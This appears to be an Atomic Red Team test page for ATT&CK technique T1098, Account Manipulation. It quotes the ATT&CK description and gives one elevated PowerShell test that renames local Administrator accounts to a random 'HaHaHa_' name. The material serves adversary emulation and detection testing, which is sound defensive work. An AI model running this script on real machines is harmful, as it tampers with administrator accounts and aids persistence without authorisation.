 # T1098 - Account Manipulation
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1098)
<blockquote>Account manipulation may aid adversaries in maintaining access to credentials and certain permission levels within an environment. Manipulation could consist of modifying permissions, modifying credentials, adding or changing permission groups, modifying account settings, or modifying how authentication is performed. These actions could also include account activity designed to subvert security policies, such as performing iterative password updates to subvert password duration policies and preserve the life of compromised credentials. In order to create or manipulate accounts, the adversary must already have sufficient permissions on systems or the domain.

### Exchange Email Account Takeover

The Add-MailboxPermission PowerShell cmdlet, available in on-premises Exchange and in the cloud-based service Office 365, adds permissions to a mailbox.(Citation: Microsoft - Add-MailboxPermission) This command can be run, given adequate permissions, to further access granted to certain user accounts. This may be used in persistent threat incidents as well as BEC (Business Email Compromise) incidents where an adversary can assign more access rights to the accounts they wish to compromise. This may further enable use of additional techniques for gaining access to systems. For example, compromised business accounts are often used to send messages to other accounts in the network of the target business while creating inbox rules so the messages evade spam/phishing detection mechanisms.(Citation: Bienstock, D. - Defending O365 - 2019)

### Azure AD

In Azure, an adversary can set a second password for Service Principals, facilitating persistence.(Citation: Blue Cloud of Death)

### AWS

AWS policies allow trust between accounts by simply identifying the account name. It is then up to the trusted account to only allow the correct roles to have access.(Citation: Summit Route Advanced AWS policy auditing)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Admin Account Manipulate](#atomic-test-1---admin-account-manipulate)


<br/>

## Atomic Test #1 - Admin Account Manipulate
Manipulate Admin Account Name

**Supported Platforms:** Windows


#### Run it with `powershell`!  Elevation Required (e.g. root or admin) 
```
$x = Get-Random -Minimum 2 -Maximum 9999
$y = Get-Random -Minimum 2 -Maximum 9999
$z = Get-Random -Minimum 2 -Maximum 9999
$w = Get-Random -Minimum 2 -Maximum 9999
Write-Host HaHaHa_$x$y$z$w

$hostname = (Get-CIMInstance CIM_ComputerSystem).Name

$fmm = Get-CimInstance -ClassName win32_group -Filter "name = 'Administrators'" | Get-CimAssociatedInstance -Association win32_groupuser | Select Name

foreach($member in $fmm) {
    if($member -like "*Administrator*") {
        Rename-LocalUser -Name $member.Name -NewName "HaHaHa_$x$y$z$w"
        Write-Host "Successfully Renamed Administrator Account on" $hostname
        }
    }
```



<br/>
